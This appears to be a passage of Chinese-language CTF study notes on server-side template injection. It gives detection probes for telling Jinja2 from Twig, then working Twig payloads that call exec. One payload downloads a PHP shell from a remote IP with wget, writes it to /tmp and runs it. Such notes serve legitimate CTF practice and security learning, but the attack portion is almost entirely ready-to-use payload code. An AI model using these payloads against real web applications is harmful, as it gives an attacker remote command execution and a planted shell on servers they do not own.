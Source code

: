 # 简单的概要

CTF 大概率不会考 XSS ，看到回显或者说看到 XSS ，第一时间想到 SSTI

![img](assets/1646570275565-4d7c1eef-b212-4e1d-b024-7a4bdda9d9a2.png)

先试试 `${7*7}` 如果不行 那就试试 `{{7*7}}` 如果可以 再试试 `{{7*'7'}}` 奈斯，配合 `.php`后缀 就能判断了

在区分Jinja2和Twig那里是这样的：

```http
Twig 
{{7*'7'}}  #输出49
Jinja
{{7*'7'}}  #输出7777777
```

## 1. PHP中的 SSTI

### Twig

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

注入php shellcode

```python
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("wget http://192.168.127.131/shell.txt -O /tmp/shell.php;php -f /tmp/shell.php")}}
```
